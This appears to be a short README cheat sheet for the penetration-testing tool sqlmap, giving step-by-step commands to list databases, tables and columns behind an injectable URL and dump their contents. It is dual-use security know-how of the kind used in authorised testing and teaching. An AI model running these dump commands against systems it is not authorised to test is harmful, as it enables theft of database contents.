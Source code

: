 # sqlmap

#### `sqlmap` is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

## Usage

Step 1: Find Databases
```
sqlmap -u URL --dbs 
```

Step 2: Find Tables in the Database
```
sqlmap -u URL -D <database> --tables
```

Step 3: Find Columns inside the Table (Optional)
```
sqlmap -u URL -D <database> -T <table> --columns
```

Step 4: Dump Database Tables (i.e. get the database entries)
```
sqlmap -u URL -D <database> -T <table> --dump
```
<b>OR</b>
```
sqlmap -u URL -D <database> -T <table> -C <column> --dump
```
(when you want to retrieve data in a specific column)

